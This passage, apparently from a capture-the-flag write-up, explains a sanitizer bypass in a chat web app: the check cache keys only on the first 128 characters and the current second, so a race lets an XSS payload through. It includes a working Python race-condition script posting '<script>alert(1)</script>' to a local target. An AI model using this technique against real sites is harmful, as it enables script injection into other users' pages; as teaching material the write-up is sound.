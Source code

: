 Recall that sanitizer is used as follows:

```python
sanitizer = Sanitizer(content)

if sanitizer.check(session_id, user_id):
    content = sanitizer.sanitize()
```

From a first glance, `bad_chars` is an extremely strict blacklist and seemingly impossible to bypass. We could try to find a vulnerability in `bleach.clean`, however there is the glaringly suspicious `satinize_store`, which acts as a cache of sorts for `sanitizer.check` results.

Looking at `generate_key`, we can see that cache keys only check the first 128 characters of the payload, and the current time in seconds. Thus, if we first send a message with 128 characters that passes the check, it will be recorded as "clean". If we then send another message in the same second, with the same first 128 characters, we can append our XSS payload to the back, and it will still pass the sanitizer check due to the key collision.

I wrote a python script for this:

```python:s.py
import requests
import random
import time
from threading import Thread

url = 'http://127.0.0.1:1337'

sess = requests.Session()

# sess.post(url + '/auth/register', json={'username': 'a', 'password': 'a'})
sess.post(url + '/auth/login', json={'username': 'a', 'password': 'a'})

resp = sess.post(url + '/tokens', json={'token': random.randbytes(10).hex()})
print(resp.text)

resp = sess.post(url + '/sessions/')
print(resp.text)
sid = resp.json()['session_id']

# race condition to bypass sanitizer

payload = '<script>alert(1)</script>'

def send_message(sess: requests.Session, sid: str, content: str):
    resp = sess.post(url + f'/sessions/{sid}/messages', json={'content': content})
    print(resp.text)

a = Thread(target=send_message, args=(sess, sid, 'A' * 128))
b = Thread(target=send_message, args=(sess, sid, 'A' * 128 + payload))

a.start()
time.sleep(0.1)
b.start()

a.join()
b.join()
```
